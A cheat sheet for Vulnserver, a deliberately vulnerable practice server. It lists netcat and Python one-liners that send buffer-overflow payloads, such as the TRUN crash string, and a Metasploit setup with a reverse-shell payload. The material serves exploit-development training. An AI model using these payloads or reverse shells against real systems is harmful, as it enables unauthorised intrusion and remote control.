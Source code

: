 Vulnserver is a vulnerable application designed for learning and testing security techniques related to buffer overflows and exploit development. It provides a controlled environment where security professionals and enthusiasts can practice their skills.

### **Vulnserver**

Vulnserver is a vulnerable Windows-based server application used for educational purposes to practice exploit development and buffer overflow attacks.

#### **Common Commands and Options**

1. **Start Vulnserver:**
   - **Description:** Launch the Vulnserver application.
   - **Command:**
     - Simply run the executable to start the server:
     ```bash
     vulnserver.exe
     ```

   - **Example:**
     - Open a terminal or command prompt and run:
     ```bash
     vulnserver.exe
     ```

   - **Explanation:** 
     - Starts the Vulnserver application, which will listen on a specified port for incoming connections.

2. **Connect to Vulnserver with Netcat:**
   - **Description:** Connect to the Vulnserver application using Netcat for testing and exploitation.
   - **Command:**
     ```bash
     nc <target_ip> <target_port>
     ```
   - **Example:**
     ```bash
     nc 192.168.1.100 9999
     ```

   - **Explanation:** 
     - Connects to Vulnserver running on IP `192.168.1.100` and port `9999` to interact with it.

3. **Send a Malformed Input (Buffer Overflow Test):**
   - **Description:** Send a buffer overflow payload to test the application's vulnerability.
   - **Command:**
     ```bash
     python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("<target_ip>", <target_port>)); s.send(b"<payload>"); s.close()'
     ```
   - **Example:**
     ```bash
     python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("192.168.1.100", 9999)); s.send(b"A" * 1000); s.close()'
     ```

   - **Explanation:** 
     - Sends a buffer overflow payload to Vulnserver. This can be used to test for buffer overflow vulnerabilities.

4. **Trigger a Specific Vulnerability (e.g., `TRUN` Command):**
   - **Description:** Trigger a specific vulnerability in Vulnserver using a command that is known to be vulnerable.
   - **Command:**
     ```bash
     python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("<target_ip>", <target_port>)); s.send(b"TRUN /.:/ " + b"A" * 1000); s.close()'
     ```
   - **Example:**
     ```bash
     python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("192.168.1.100", 9999)); s.send(b"TRUN /.:/ " + b"A" * 1000); s.close()'
     ```

   - **Explanation:** 
     - Sends a payload to the `TRUN` command in Vulnserver to trigger a buffer overflow or other vulnerability.

5. **Using Metasploit to Exploit Vulnserver:**
   - **Description:** Use Metasploit to exploit vulnerabilities in Vulnserver.
   - **Command:**
     ```bash
     msfconsole
     use exploit/windows/misc/vulnserver
     set RHOSTS <target_ip>
     set LHOST <local_ip>
     set PAYLOAD windows/shell_reverse_tcp
     exploit
     ```
   - **Example:**
     ```bash
     msfconsole
     use exploit/windows/misc/vulnserver
     set RHOSTS 192.168.1.100
     set LHOST 192.168.1.101
     set PAYLOAD windows/shell_reverse_tcp
     exploit
     ```

   - **Explanation:** 
     - Configures and runs a Metasploit exploit module against Vulnserver.

6. **Start a Debugging Session:**
   - **Description:** Use a debugger like Immunity Debugger or OllyDbg to analyze Vulnserver.
   - **Command:**
     - Open Vulnserver in a debugger:
     ```bash
     immunitdbg.exe vulnserver.exe
     ```

   - **Example:**
     - Open Vulnserver executable in Immunity Debugger for step-by-step analysis.

   - **Explanation:** 
     - Launches Vulnserver in a debugger to inspect memory, registers, and execution flow.

#### **Summary of Vulnserver Commands**

| **Command**                                                                                                                                                                 | **Description**                                | **Example**                                                                                                                                                          |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `vulnserver.exe`                                                                                                                                                            | Start Vulnserver                               | `vulnserver.exe`                                                                                                                                                     |
| `nc <target_ip> <target_port>`                                                                                                                                              | Connect to Vulnserver using Netcat             | `nc 192.168.1.100 9999`                                                                                                                                              |
| `python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("<target_ip>", <target_port>)); s.send(b"<payload>"); s.close()'`                | Send a payload to Vulnserver                   | `python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("192.168.1.100", 9999)); s.send(b"A" * 1000); s.close()'`                 |
| `python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("<target_ip>", <target_port>)); s.send(b"TRUN /.:/ " + b"A" * 1000); s.close()'` | Trigger specific vulnerability (e.g., `TRUN`)  | `python -c 'import socket; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("192.168.1.100", 9999)); s.send(b"TRUN /.:/ " + b"A" * 1000); s.close()'` |
| `msfconsole`                                                                                                                                                                | Start Metasploit Console                       | `msfconsole`                                                                                                                                                         |
| `use exploit/windows/misc/vulnserver`                                                                                                                                       | Select Vulnserver exploit module in Metasploit | `use exploit/windows/misc/vulnserver`                                                                                                                                |
| `set RHOSTS <target_ip>`                                                                                                                                                    | Set target IP address in Metasploit            | `set RHOSTS 192.168.1.100`                                                                                                                                           |
| `set LHOST <local_ip>`                                                                                                                                                      | Set local IP address in Metasploit             | `set LHOST 192.168.1.101`                                                                                                                                            |
| `set PAYLOAD windows/shell_reverse_tcp`                                                                                                                                     | Set payload type in Metasploit                 | `set PAYLOAD windows/shell_reverse_tcp`                                                                                                                              |
| `exploit`                                                                                                                                                                   | Run the exploit                                | `exploit`                                                                                                                                                            |
| `immunitdbg.exe vulnserver.exe`                                                                                                                                             | Start Vulnserver in Immunity Debugger          | `immunitdbg.exe vulnserver.exe`                                                                                                                                      |
|                                                                                                                                                                             |                                                |                                                                                                                                                                      |

---

Vulnserver is a valuable tool for understanding and practicing buffer overflow vulnerabilities and exploit development. By using various commands and techniques, you can effectively explore and exploit the vulnerabilities present in this application.